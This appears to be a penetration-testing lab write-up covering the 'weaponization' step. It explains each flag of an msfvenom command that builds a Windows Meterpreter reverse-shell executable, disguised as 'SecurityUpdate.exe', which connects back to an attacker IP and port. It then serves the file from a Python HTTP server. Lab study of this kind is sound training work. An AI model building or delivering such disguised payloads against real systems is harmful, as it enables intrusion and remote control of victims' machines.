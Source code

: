 # Weaponization

## Objective:
Create a malicious payload and a delivery mechanism for the attack.

## Action:
1. Generate Malicious Payload with MSFVenom: 

    Use **MSFVenom**, a tool for creating payloads, to generate a **malicious executable** that executes a **Meterpreter shell** (Metasploit's remote control payload). 

![image](https://github.com/user-attachments/assets/fc6acd6d-1b8f-4dc9-8d76-ab57a5fc4574)

### Explanation of the Command:

  - `msfvenom` – A tool used to generate payloads (malicious code) for penetration testing.
  - `-p windows/meterpreter/reverse_tcp` – This specifies the payload type:
    - `windows/meterpreter/reverse_tcp` creates a **reverse shell**, meaning the victim's machine will connect back to the attacker's system.
  - `LHOST=10.19.19.134` – The attacker's IP address where the victim's machine will connect to.
  - `LPORT=4444` – The port on which the attacker's computer is listening for incoming connections.
  - `-f exe` – Specifies the output format of the payload as a **Windows executable** (`.exe`).
  - `-o SecurityUpdate.exe` – Saves the malicious executable file as `SecurityUpdate.exe`.

## The Output:

- The tool automatically targets **Windows**.
- **x86 (32-bit architecture)** is selected, as no specific architecture was defined.
- The payload is **354 bytes** in size, while the final executable is **73,802 bytes**.
- The malicious file is saved as `SecurityUpdate.exe`.

### What This Means:

When `SecurityUpdate.exe` is executed on a Windows system, it connects back to the attacker's IP (**10.19.19.134:4444**) and provides remote control through the **Meterpreter shell**.


### Verifying the Payload Type:
Use the `file` command to check the type of the generated file (`SecurityUpdate.exe`):

```
 file SecurityUpdate.exe
```
1. `PE32 executable` – This means it is a Portable Executable (PE) file, which is a common format for Windows programs.
2. `(GUI)` – The program is designed to run with a Graphical User Interface (GUI) rather than in the command line (CLI).
3. `Intel 80386` – This indicates the file is built for 32-bit (x86) architecture.
4. `for MS Windows` – The file is meant to run on Microsoft Windows.
5. `4 sections` – The executable has four sections inside it (such as code, data, resources, etc.), which is typical for compiled Windows programs.

This confirms that `SecurityUpdate.exe` is a **32-bit Windows executable** with a GUI. If run, it will execute the embedded Meterpreter payload.

2. Host the Payload Using a Python HTTP Server.

   Host the payload on a **Python HTTP server** running on port `8000`:

![image](https://github.com/user-attachments/assets/1c66b5c9-4f4c-4285-8f5a-d86b5a14c244)

### Command Explanation:

```
python3 -m http.server 8000
```

1. `python3` – Runs Python version 3.
2. `-m http.server` – Uses Python’s built-in web server module to start a temporary HTTP server.
3. `8000` – Specifies that the server should run on port 8000 (you can change this to any available port).

### Output of the Command:

  - `"Serving HTTP on 0.0.0.0 port 8000"` – The server is now running and accessible from any computer on the network.
  - `"http://0.0.0.0:8000/"` – You (or others on the network) can access it by typing http://your-ip:8000/ in a web browser.

### What This Means:

  - If you run this command in a folder, Python will share all the files in that folder over HTTP.
  - You can download files from this machine by visiting `http://your-ip:8000/` in a browser or using `wget` or `curl`.
  - Useful for quick file sharing or setting up a local web server for testing.
